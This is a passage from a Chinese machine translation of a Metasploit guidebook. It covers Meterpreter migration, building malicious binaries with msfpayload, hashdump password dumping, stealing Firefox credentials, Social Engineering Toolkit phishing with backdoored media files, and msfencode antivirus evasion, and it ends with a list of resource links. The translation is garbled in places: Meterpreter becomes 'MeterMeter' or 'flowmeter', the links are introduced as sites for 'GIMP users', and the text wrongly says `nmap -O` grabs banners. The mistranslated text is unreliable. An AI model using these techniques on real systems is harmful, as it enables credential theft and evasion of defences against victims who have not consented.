我们在本模块中观察到的另一件有趣的事情是，一旦利用成功，利用就会自动迁移到`notepad.exe`。这是因为在这种攻击中，用户很有可能重新启动浏览器，因为用户将有无限的页面加载等待时间，他/她甚至可能尝试关闭选项卡。在这种情况下，我们不想失去与盒子的连接。因此，辅助模块具有足够的智能，可以考虑这一点，并将自身迁移到后台更安全的流程，如`notepad.exe`或类似流程。

一旦你掌握了 MeterMeter 会话，你就知道你应该做什么了！在前面的章节中，我们已经详细介绍了流量计。

### 在 Metasploit 中创建后门

当我们试图在第一次开发中设置有效负载时，我们已经看到了很多有效负载。这让我想到，如果我们能够找到一种独立于攻击的方式来附加这些有效负载，并使用社会工程来拥有更多的目标，那么我的攻击成功率将会提高。为了回应这些祈祷，Metasploit 用一个名为`msfpayload`的脚本拯救了这一天！

导航到`/opt/metasploit/msf3/`。您可以在这里找到一个名为`msfpayload`的可执行脚本。使用`msfpayload`，我们可以创建一个恶意二进制文件，然后将其提供给受害者，并帮助我们利用他/她的系统进行攻击。

### 转储 Windows 哈希

攻击后，如果我们希望获得登录到系统的所有用户的用户名和密码，则需要转储这些哈希。为此，我们在 MeterMeter 模块中有一个脚本。该命令的名称为`hashdump`。

此命令的语法如下所示：

```
meterpreter>hashdump

```

以下屏幕截图解释了正在运行的命令：


在丢弃这些散列之后，我们可以使用像开膛手约翰这样的工具破解密码。

### 使用第三方工具窃取浏览器凭证

我们已经了解了在目标系统上创建通道和从远程系统执行进程的概念。我们还看到了 MeterMeter 中的上载/下载命令。使用这些概念，如果我们可以上传一个 EXE，比如在 Firefox 浏览器中窃取保存的凭据的`firepassword`，那么这就增加了从系统到他们在线足迹的攻击范围。



本节介绍了初学者需要了解的主要功能。我相信从这一点开始，您可以在这里或那里通过一些指导独自探索 Metasploit。本节的唯一目的是为您提供一个跨接起动，该起动是使用工具弄脏手所必需的。

## 社会工程工具包–Metasploit 的扩展

到目前为止，我们已经在本书中介绍了 Metasploit 的各个方面。在本节中，让我们将知识扩展到与社会工程工具包一起使用的 Metasploit 扩展。社会工程是开发人类思维的经典方法。目标可以使用任何高级安全工具和防御来保护自己免受攻击者的攻击，但众所周知，一个组织的安全与其最薄弱的环节一样。更有趣的是，人类的愚蠢永远无法弥补。社会工程工具包为此类攻击提供了便利，这需要有安全意识的人类思维来进行防御；否则，任何防御机制都无法阻止这种利用。

当我们打开“社会工程工具包”时，我们看到了大量选项，如以下屏幕截图所示：


让我们列举一下此框架下可用的选项：

*   **社会工程攻击**：这类攻击包括各种子类别，如矛式网络钓鱼攻击、网站攻击、制作媒体有效负载、群发邮件攻击、短信欺骗攻击、基于二维码的攻击等。在鱼叉式网络钓鱼攻击中，我们只有一个目标，这种攻击就像我们用鱼叉捕鱼一样，因此得名；鱼叉式网络钓鱼。在制作媒体有效载荷时，我们基本上使用 MP3/音频格式或视频、PPTX 文件、PDF 等发送给受害者。这些将与后门绑定，以授予对远程系统的访问权限。当然，在发送受感染的媒体文件之前也会对有效负载进行模糊处理，以便我们避开 IDS/IPS 和防病毒系统。
*   **快车道攻击模块**：与之前的快车道 pen 测试平台集成。社会工程工具包现在也在它的屋顶下放置了这些平台。
*   **第三方模块集成**：在引擎盖下看到两次攻击；著名的基于 Java 小程序的漏洞攻击和基于 Tommy Edition 的远程管理工具。
*   除了本书前面介绍的`msfupdate`命令之外，社会工程工具包还可以用来更新 Metasploit 框架。

Metasploit 扩展可以在**创建有效载荷**子选项下的社会工程攻击菜单下找到。在下面的屏幕截图中，我们可以看到 social engineering toolkit 下基于 MeterMeter 扩展的有效负载。在利用目标时，使用常规 Metasploit 框架命令运行这些命令的方式仍然相同。


### 在攻击中使用 msfencode 脚本

我想简要介绍一下 Metasploit 框架中可用的 msfencode。msfpayload 脚本可用于创建恶意可执行文件，但为了使其避开 IPS/IDS 和防病毒系统，我们需要使用编码器对有效负载进行编码/模糊处理。Msfencode 通过提供多种编码选项为我们完成这项任务。

### Nmap 和 Metasploit

Nmap 本身是一个独立的工具，但也可以在 Metasploit 中调用它以执行快速端口扫描。例如：

*   **语法**：`msf>nmap –sV ip_address`
*   **语法**：`msf>nmap –O ip_address`

第一个命令扫描目标系统中端口上运行的服务，而第二个命令捕获目标系统的横幅。

# 你应该了解的人和地方

如果您需要 Metasploit 方面的帮助，这里有一些人和地方将被证明是非常宝贵的。

## 官方网站

*   首页：[http://www.metasploit.com/](http://www.metasploit.com/)
*   手册和文件：[http://help.metasploit.com/](http://help.metasploit.com/)
*   维基：[http://wiki.backbox.org/index.php/Metasploit](http://wiki.backbox.org/index.php/Metasploit)
*   博客：[https://community.rapid7.com/community/metasploit/blog](https://community.rapid7.com/community/metasploit/blog)
*   源代码：[https://github.com/rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework)

## 文章和教程

网上有无数教程和文章，涵盖 Metasploit 的各个方面。你可以在搜索引擎（Google、Bing 和 Yahoo）上搜索要执行的特定任务，最终可能会访问一些令人兴奋的网站，并清楚地解释如何执行这些任务。Metasploit 用户无处不在，他们在 web 上的帖子扩展到相册、源代码和视频教程。以下是 GIMP 用户熟悉的一些站点：

*   [http://www.offensive-security.com/metasploit-unleashed/Main_Page](http://www.offensive-security.com/metasploit-unleashed/Main_Page)
*   [http://backtracktutorials.com/metasploit-tutorial/](http://backtracktutorials.com/metasploit-tutorial/)
*   [http://www.securitytube.net/video/1175](http://www.securitytube.net/video/1175) （*Metasploit 巨型底漆*、*维韦克·拉马钱德拉*）

## 社区

如果您希望参与 Metasploit，以下链接将非常有用：

*   官方邮寄名单：[http://mail.metasploit.com/mailman/listinfo/framework](http://mail.metasploit.com/mailman/listinfo/framework)
*   官方论坛：[https://community.rapid7.com/welcome](https://community.rapid7.com/welcome)
*   非正式论坛：[http://www.backtrack-linux.org/forums/forum.php](http://www.backtrack-linux.org/forums/forum.php)
*   IRC 官方频道：[https://community.rapid7.com/docs/DOC-2198](https://community.rapid7.com/docs/DOC-2198)
*   用户常见问题解答：[http://en.wikibooks.org/wiki/Metasploit/Frequently_Asked_Questions](http://en.wikibooks.org/wiki/Metasploit/Frequently_Asked_Questions)

## 推特

如果您是 Twitter 用户，我必须提及以下 Twitter 页面：

*   [https://twitter.com/metasploit](https://twitter.com/metasploit)
*   [https://twitter.com/hdmoore](https://twitter.com/hdmoore)
*   [https://twitter.com/rapid7](https://twitter.com/rapid7)
*   [https://twitter.com/Backtrack5](https://twitter.com/Backtrack5)

有关更多开源信息，请参见[中的 Packthttp://twitter.com/#!/packtopensource](http://twitter.com/#!/packtopensource)。